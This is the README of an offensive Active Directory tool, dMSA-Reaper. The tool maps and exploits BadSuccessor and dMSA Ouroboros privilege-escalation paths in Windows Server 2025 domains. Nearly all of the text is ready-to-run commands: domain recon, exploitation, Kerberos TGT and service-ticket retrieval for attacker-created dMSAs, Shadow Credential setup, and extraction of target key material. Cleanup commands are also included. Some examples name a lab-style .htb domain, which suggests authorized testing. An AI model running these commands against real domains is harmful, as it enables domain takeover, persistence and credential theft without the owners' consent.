







<p align="center">
  
</p>

```
       ____  ________ ___       ____
  ____/ /  |/  / ___//   |     / __ \___  ____ _____  ___  _____
 / __  / /|_/ /\__ \/ /| |    / /_/ / _ \/ __ `/ __ \/ _ \/ ___/
/ /_/ / /  / /___/ / ___ |   / _, _/  __/ /_/ / /_/ /  __/ /
\__,_/_/  /_//____/_/  |_|  /_/ |_|\___/\__,_/ .___/\___/_/
                                            /_/
```

# dMSA-Reaper

dMSA-Reaper maps and exploits BadSuccessor and dMSA Ouroboros paths in
Windows Server 2025 Active Directory.

## Install

```bash
python3 -m venv .venv
. .venv/bin/activate
pip install .
```

## Exploit a known target

```bash
dmsa-reaper exploit \
  -d corp.local --dc-ip 10.0.0.10 -u analyst -p 'pass' --use-ldaps \
  --target victim --dry-run

dmsa-reaper exploit \
  -d corp.local --dc-ip 10.0.0.10 -u analyst -p 'pass' --use-ldaps \
  --target victim --confirm
```

`--target` maps just that account and runs the path if there's exactly one.
Multiple paths: narrow with `--path`, `--primitive`, or `--container-dn`.

## Recon a domain first

Set your target once so the commands below stay short.

```bash
export DOMAIN=checkpoint.htb
export DC_IP=10.0.0.10
export DC_HOST=DC01.checkpoint.htb
export USER=analyst
export PASS='pass'
```

Map the domain. This writes `state.json` and reports what it found.

```bash
dmsa-reaper map -d "$DOMAIN" --dc-ip "$DC_IP" --dc-host "$DC_HOST" \
  -u "$USER" -p "$PASS"
```



List the abuse paths in that state. Add `--legacy` for unpatched DCs.

```bash
dmsa-reaper paths --state state.json
```



Dry-run a path to see every write before making it. Use the ID from the table.

```bash
dmsa-reaper exploit --state state.json --path BS-5d5dbcaecb67 --dry-run
```



Run it for real. Pass the same account and DC you used for `map`.

```bash
dmsa-reaper exploit \
  --state state.json \
  --path BS-5d5dbcaecb67 \
  --confirm \
  -d "$DOMAIN" --dc-ip "$DC_IP" --dc-host "$DC_HOST" \
  -u "$USER" -p "$PASS"
```



## Tickets

`exploit` prints an operation ID. Use it to get tickets for the new dMSA.

The `faketime` wrapper sets your clock to the DC so Kerberos does not reject the
request for time skew.

Get its TGT:

```bash
dmsa-reaper tgt --op OP-20260805-1363231c \
  --ccache "$PWD/user-ticket.ccache" --identity "$USER"
```



Get a service ticket for an SPN:

```bash
dmsa-reaper ticket --op OP-20260805-1363231c \
  --ccache "$PWD/user-ticket.ccache" --identity "$USER" \
  --spn 'cifs/DC01.checkpoint.htb'
```



Artifacts land under `.reaper/runs/<operation-id>/`; each SPN gets its own
cache and handoff script.

## Cleanup

```bash
dmsa-reaper cleanup --op OP-YYYYMMDD-deadbeef -u analyst -p 'pass' --use-ldaps
```

Restores an attribute only while it still holds the operation's value, removes
only the ACEs the operation added, deletes a created object only if its
`objectGUID` still matches the journal. Conflicts are left untouched and exit
non-zero. Journals live in `.reaper/operations`.

## Kerberos

```bash
export KRB5CCNAME=/secure/operator.ccache
dmsa-reaper map -d corp.local --dc-ip 10.0.0.10 -u analyst -k
```

Pass `-u` with `-k` so the tool can match the ccache identity to the mapped
SID. NTLM, LDAPS, STARTTLS, and ccache SASL/GSSAPI work for LDAP; pass-the-hash,
AES keys, and keytabs aren't consistently supported there.

## Ouroboros

Ouroboros extends the patched, bidirectional dMSA migration path with a Shadow
Credential and a self-referential `msDS-GroupMSAMembership` descriptor. The
descriptor uses expanded specific rights (`0x000f01ff`), not the `GenericAll`
bit that the KDC's dMSA authorization check rejects.

Assess delegated capability and look for existing persistence markers:

```bash
dmsa-reaper ouroboros check \
  -d corp.local --dc-ip 10.0.0.10 -u analyst -p 'pass' --use-ldaps
```

Preview or establish the chain:

```bash
dmsa-reaper ouroboros exploit --target-account svc_sql \
  -d corp.local --dc-ip 10.0.0.10 -u analyst -p 'pass' --use-ldaps \
  --dry-run

dmsa-reaper ouroboros exploit --target-account svc_sql \
  -d corp.local --dc-ip 10.0.0.10 -u analyst -p 'pass' --use-ldaps \
  --confirm
```

The exploit prints an operation ID. The encrypted PFX and its protected
credential manifest are written with mode `0600` under
`.reaper/runs/<operation-id>/`. Re-run extraction whenever fresh target key
material is required:

```bash
dmsa-reaper ouroboros extract --op OP-YYYYMMDD-deadbeef
```

Cleanup restores target-side attributes only when they still contain the
operation's values and deletes the created dMSA only when its `objectGUID`
matches the journal. Because deletion is what removes the self-sustaining loop,
the GUID-bound dMSA deletion is still attempted if a target attribute has a
third-party conflict:

```bash
dmsa-reaper ouroboros cleanup --op OP-YYYYMMDD-deadbeef \
  -u analyst -p 'pass' --use-ldaps
```

Cleanup retains the mode-`0600` run artifacts and operation journal for audit
and recovery; remove the run directory separately when those local credentials
are no longer needed.

Technical background: [Huntress's Ouroboros chain](https://www.huntress.com/blog/dmsa-ouroboros-credential-extraction-windows-server-2025)
and [Akamai's dMSA security-model analysis](https://www.akamai.com/blog/security-research/ouroboros-technique-how-fits-dmsas-security-model).
